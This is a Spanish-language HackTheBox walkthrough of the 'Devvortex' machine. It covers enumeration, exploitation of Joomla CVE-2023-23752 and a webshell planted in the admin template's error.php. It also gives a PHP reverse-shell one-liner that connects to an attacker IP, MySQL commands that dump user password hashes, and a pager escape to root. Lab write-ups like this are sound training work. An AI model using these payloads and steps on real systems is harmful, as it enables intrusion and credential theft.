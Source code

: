 ```yaml
---
layout: post
title: Devvortex
date: 2023-12-04 13:09 +0100
img_path: /assets/img/
categories: [HackTheBox,Easy] 
tags: [Joomla,Virtual Hosting,RCE]
---
```


![Devvortex](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Devvortex.png)

Devvortex es una máquina Linux con la que practicaremos enumeración web y virtual hosting. Al utilizar Joomla, practicaremos cómo podemos obtener ejecución remota de comandos una vez que accedemos al panel de administración. También se hace uso de la vulnerabilidad CVE-2023-23752 para obtener información sensible, como usuarios y contraseñas.

## 🔍 **ENUMERACIÓN**

Realizamos un nmap para conocer todos los puertos abiertos de la máquina.

```
nmap -p- -open -sS --min-rate 5000 -n -vvv -Pn 10.129.54.199 -oG allPorts
```

Una vez finalizado el escaneo, observamos que los únicos puertos abiertos son el 22 y el 80.

![Pasted image 20231202182800.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182800.png)

A continuación, realizamos un escaneo más exhaustivo de dichos puertos para conocer la versión y servicio que utilizan. Observamos que el puerto 80 redirige a la dirección `[http://devvortex.htb](http://devvortex.htb)`, así que lo añadimos al archivo `/etc/hosts`

![Pasted image 20231202182158.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182158.png)

```
nmap -p22,80 -sCV 10.129.54.199 -oN targeted
```

![Pasted image 20231202182309.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231202182309.png)

### Puerto 80

![Pasted image 20231203131930.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203131930.png)

Comenzamos analizando las tecnologías que utiliza con la herramienta `whatweb`.

![Pasted image 20231203133456.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133456.png)

Observamos que utiliza `nginx 1.18.0`, pero no encontramos ninguna vulnerabilidad. Realizamos un escaneo de directorios con la herramienta `gobuster`.

```
gobuster dir -u http://devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -o devvortex.htb.dirs -f
```

![Pasted image 20231203133401.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133401.png)

No encontramos nada interesante, así que probamos a ver si utiliza *virtual hosting.* Para ello, utilizamos `gobuster`.

```
gobuster vhost --append-domain -u http://devvortex.htb/ -t 50 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o devvortex.vhosts
```

![Pasted image 20231203133909.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203133909.png)

Encontramos un subdominio: `dev.devvortex.htb`. Para poder acceder a él, lo añadimos al archivo `/etc/hosts`.

![Pasted image 20231203175102.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203175102.png)

### dev.devvortex.htb

![Pasted image 20231203134046.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203134046.png)

Realizamos un escaneo de directorios del nuevo subdominio con `gobuster`.

```
gobuster dir -u http://dev.devvortex.htb/ -f -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200 -o dev.devvortex.htb.dirs
```

![Pasted image 20231203135832.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135832.png)

Encontramos un directorio interesante: `/administrator/`. Si accedemos a él, podemos observar que se trata de un panel de autenticación de `joomla`. 

![Pasted image 20231203135901.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203135901.png)

Podemos utilizar la herramienta `joomscan` para poder saber más.

```
joomscan -u http://dev.devvortex.htb
```

![Pasted image 20231203143507.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203143507.png)

Gracias a `joomscan`, obtenemos que la versión utilizada de `joomla` es la `4.2.6`. Buscando por internet, encontramos que puede ser vulnerable a ***CVE-2023-23752.***

## 💥 **EXPLOTACIÓN**

[https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script](https://github.com/Ly0kha/Joomla-CVE-2023-23752-Exploit-Script)

Utilizando el siguiente exploit, podemos extraer información valiosa de la base de datos utilizada por `joomla`.

![Pasted image 20231203144317.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144317.png)

Observamos que tenemos dos usuarios: **lewis** y **logan**. Además, tenemos la contraseña de lewis: `P4ntherg0t1n5r3c0n##`. Si probamos a utilizar las credenciales a través de SSH, no vamos a tener exito, pero podemos acceder a través del panel de autenticación de `joomla`.

![Pasted image 20231203144756.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203144756.png)

Una vez que tenemos acceso al panel de administración, podemos obtener un **RCE** para utilizar una reverse shell. Para ello nos dirigimos a la pestaña system, Administrator Templates, seleccionamos la template atum, y editamos el archivo `error.php`.

![Pasted image 20231203162659.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162659.png)

Si accedemos desde el navegador, podemos ejecutar comandos.

```
http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=id
```

![Pasted image 20231203162950.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203162950.png)

Para conseguir enviarnos una reverse shell a través del **RCE**, utilizamos el siguiente **payload**.

```php
php -r '$sock=fsockopen("10.10.16.24",443);exec("sh <&3 >&3 2>&3");'
```

Nos ponemos en escucha con `netcat` para recibir la reverse shell.

![Pasted image 20231203163410.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203163410.png)

Una vez dentro, el único usuario disponible es **logan**, pero no tenemos las credenciales para poder conectarnos. Como anteriormente obtuvimos las credenciales de la base de datos de `joomla`, podemos utilizarlas para obtener las credenciales de **logan**.

```
mysql -u lewis -pP4ntherg0t1n5r3c0n##
use joomla;
select username,password from sd4fg_users;
```

![Pasted image 20231203165325.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165325.png)

Guardamos la clave encriptada de logan para poder crackearla con john.

![Pasted image 20231203165304.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165304.png)

Una vez obtenida la contraseña de logan, podemos conectarnos a través de ssh.

![Pasted image 20231203165429.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203165429.png)

Una vez dentro, ya podemos ver la flag de `user.txt`. que está situada en `/home/logan/user.txt`.

## 🔐 **ESCALADA DE PRIVILEGIOS**

Si realizamos un `sudo -l` para ver los commandos que podemos ejecutar como `root` nos encontramos lo siguiente.

![Pasted image 20231203172027.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172027.png)

Si lo ejecutamos para ver algún crasheo que se haya producido, podemos elevar privilegios, ya que para mostrar el reporte utiliza una funcionalidad de pager como `less`.

![Pasted image 20231203172109.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172109.png)

Seleccionamos la opción V para ver el reporte y cuando nos muestre el reporte ejecutamos `!bash` y obtendremos una shell como `root`.

![Pasted image 20231203172221.png](Devvortex%20120599f1e39f4440af1b0a954204bc5d/Pasted_image_20231203172221.png)

Una vez que tenemos acceso como `root`, podemos obtener la flag en `/root/root.txt`.